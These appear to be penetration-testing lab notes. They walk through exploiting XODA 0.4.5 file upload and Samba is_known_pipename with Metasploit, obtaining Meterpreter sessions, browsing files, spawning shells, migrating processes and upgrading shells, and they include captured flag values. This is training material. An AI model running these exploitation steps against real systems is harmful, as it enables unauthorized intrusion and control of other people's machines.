


# 🔬Meterpreter - MSF

## Lab 1

>  🔬 [Meterpreter Basics](https://www.attackdefense.com/challengedetails?cid=193)
>
>  - Target IP: `192.170.151.3`
>  - Usage of the **Meterpreter** payload
>  - [Meterpreter](https://www.offsec.com/metasploit-unleashed/about-meterpreter/)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.170.151.3
setg RHOST 192.170.151.3
workspace -a MeterpreterBasics
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 192.170.151.3
```

```bash
80/tcp   open http Apache httpd 2.4.7 ((Ubuntu))
3306/tcp open mysql MySQL 5.5.47-0ubuntu0.14.04.1
```

```bash
curl http://192.170.151.3
```

```bash
search xoda
use exploit/unix/webapp/xoda_file_upload
info
# Description:
#   This module exploits a file upload vulnerability found in XODA 
#   0.4.5. Attackers can abuse the "upload" command in order to upload a 
#   malicious PHP file without any authentication, which results in 
#   arbitrary code execution. The module has been tested successfully on 
#   XODA 0.4.5 and Ubuntu 10.04.
set TARGETURI /
run
```

## Meterpreter Commands

- In the **`Meterpreter`** session

### help

```bash
help
```

```bash
Core Commands
=============
    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    irb                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    migrate                   Migrate the server to another process
    pry                       Open the Pry debugger on the current session
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    sessions                  Quickly switch to another session
    set_timeouts              Set the current session timeout values
    sleep                     Force Meterpreter to go quiet, then re-establish session.
    transport                 Change the current transport mechanism
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current session
    write                     Writes data to a channel


Stdapi: File system Commands
============================
    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    chmod         Change the permissions of a file
    cp            Copy source to destination
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory


Stdapi: Networking Commands
===========================
    Command       Description
    -------       -----------
    portfwd       Forward a local port to a remote service


Stdapi: System Commands
=======================
    Command       Description
    -------       -----------
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system's local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    shell         Drop into a system command shell
    sysinfo       Gets information about the remote system, such as OS


Stdapi: Audio Output Commands
=============================
    Command       Description
    -------       -----------
    play          play an audio file on target system, nothing written on dis
```

### sysinfo

```bash
sysinfo
```

```bash
Computer    : victim-1
OS          : Linux victim-1 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64
Meterpreter : php/linux
```

### getuid

```
getuid
```

```bash
Server username: www-data (33)
```

- Unprivileged session with the `www-data` user

### background

```bash
background
```

```bash
# Puts the session in background
```

- Keyboard shortcut: `CTRL+Z`

### sessions

```bash
sessions
```

```bash
Active sessions
===============
  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter php/linux  www-data (33) @ victim-1  192.170.151.2:4444 -> 192.170.151.3:51678 (192.170.151.3)

# Manage Active MSF sessions
```

```bash
sessions -h
```

```bash
OPTIONS:
    -C <opt>  Run a Meterpreter Command on the session given with -i, or all
    -K        Terminate all sessions
    -S <opt>  Row search filter.
    -c <opt>  Run a command on the session given with -i, or all
    -d        List all inactive sessions
    -h        Help banner
    -i <opt>  Interact with the supplied session ID
    -k <opt>  Terminate sessions by session ID and/or range
    -l        List all active sessions
    -n <opt>  Name or rename a session by ID
    -q        Quiet mode
    -s <opt>  Run a script or module on the session given with -i, or all
    -t <opt>  Set a response timeout (default: 15)
    -u <opt>  Upgrade a shell to a meterpreter session on many platforms
    -v        List all active sessions in verbose mode
    -x        Show extended information in the session table
```

```bash
# Switch between sessions Ids with
sessions 1

# Rename sessions
sessions -n xoda -i 1

# Run a Meterpreter Command on the session given with `-i`
sessions -C sysinfo -i 1

# Terminate a specific session
sessions -k 1
```

### pwd / cd / ls

```bash
pwd
	/app/files
```

```bash
cd ..

ls
	Listing: /app
	[...]
```

### cat / edit

```bash
cat flag1
edit flag1
	# Edit file with vim
```

> 🚩 **`5c50a439f040922188a22f88cecc5277`**

```bash
cd "Secret Files"
```

```bash
cat .flag2
```

> 🚩 **`bbbb3ed27502614e27bff65faea008a0`**

### download

```bash
cd ..
download flag5.zip
background
unzip flag5.zip
	# password is 56784
cat list
	MD5 hash of /bin/bash
```

### checksum

```bash
checksum md5 /bin/bash
```

> 🚩 **`164ebd6889588da166a52ca0d57b9004`**

### getenv

```bash
getenv PATH
```

```bash
Environment Variables
=====================
Variable  Value
--------  -----
PATH      /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```bash
getenv TERM
```

```bash
[-] None of the specified environment variables were found/set.
# Correct for the "www-data" user
```

### search

```bash
search -d /usr/bin -f *backdoor*
	/usr/bin\backdoor (66 bytes)
```

```bash
search -f *.php
    Found 5 results...
        .\config.php (1284 bytes)
        .\functions.php (40563 bytes)
        .\index.php (57739 bytes)
        .\phpinfo.php (19 bytes)
        .\zipstream.php (18850 bytes)
```

### shell

```bash
shell
```

- Open a native Linux `bash` sessions by running after the `shell` command

```bash
/bin/bash -i
```

```bash
www-data@victim-1:/app$
```

- Terminate the `shell` session with **`CTRL+C`** or with `exit` command

### ps

```bash
ps
```

```bash
Process List
============
 PID  Name              User      Path
 ---  ----              ----      ----
 1    /bin/bash         root      /bin/bash /startup.sh
 7    logger            root      logger -loc 1 --dont_kill
 8    logger            root      logger -loc 2 --dont_kill
 9    logger            root      logger -loc 3 --dont_kill
 10   logger            root      logger -loc 4 --dont_kill
 11   logger            root      logger -loc 5 --dont_kill
 12   logger            root      logger -loc 6 --dont_kill
 [...]
```

### migrate

```bash
migrate 585
```

- It could not work due to lack of sufficient privileges/permissions

```bash
migrate -N apache2
```

### ifconfig

```bash
ifconfig
```

- Works on Windows O.S.

### execute

```bash
execute -f ifconfig
```

### mkdir / rmdir

```bash
mkdir test
rmdir test
```

------

## Lab 2

> 🔬 Same [Samba SMB Exploitation lab](samba-msf-exp.md)
>
> - Target IP: `192.129.219.3`
> - Metasploit **`post/multi/manage/shell_to_meterpreter`** module

```bash
ip -br -c a
	eth1@if186734 UP 192.129.219.2/24
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.129.219.3
setg RHOST 192.129.219.3
workspace -a Upgrade_Shells
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 192.129.219.3
```

```bash
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
run
```

```bash
/bin/bash -i
	root@victim-1:/tmp#
```

### Manual Shell to Meterpreter

- This Linux command shell is not as advanced as `Meterpreter`.

- Upgrade the command shell to a `Meterpreter` session on the target system

```bash
background # or CTRL+Z
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST eth1
run

sessions
sessions 2
exit
```



### Auto Shell to Meterpreter

- Use the sessions **`-u`** option to upgrade the shell to a `Meterpreter` session

```bash
sessions -u 1
sessions 3
```



------

